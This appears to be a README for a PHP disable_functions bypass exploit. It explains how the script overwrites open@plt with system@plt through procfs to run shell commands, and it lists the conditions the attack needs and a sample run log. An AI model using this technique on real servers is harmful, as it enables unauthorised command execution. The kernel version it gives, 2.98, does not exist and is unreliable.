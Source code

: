 # PHP disable_functions bypass

Original topic on RDot forum (russian): https://rdot.org/forum/showthread.php?t=3309

This script exploits the possibility to write to procfs and rewrites the open@plt address with system@plt address. After that you can run shell commands with, for example, readfile(). Addresses are obtained automatically after ELF parsing of libc and php binary.

Conditions:
* Linux kernel version >= 2.98,
* PHP-CGI or PHP-FPM (modern Apache versions with mod_php call setuid, thus, there's no access to procfs),
* Linux x64 (you can adjust offsets to make it work on x32 system),
* open_basedir = Off (or you should be able to bypass it to read /lib and to read and write in /proc).

Example of usage:
```
$ php procfs_bypass.php
[*] PHP disable_functions procfs bypass (coded by Beched, RDot.Org)
[*] Trying to get open@plt offset in PHP binary
[+] Address is 0xe94998
[*] Libc location: /lib/x86_64-linux-gnu/libc-2.19.so
[*] Trying to get open and system symbols from Libc
[+] Got it. Seeking for address in memory
[*] open@plt addr: 0x7f150f86d150
[*] system@plt addr: 0x7f150f7c7530
[*] Rewriting open@plt address
[+] Address written. Executing cmd
uid=1000(beched) gid=1000(beched) группы=1000(beched),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),110(sambashare)
```
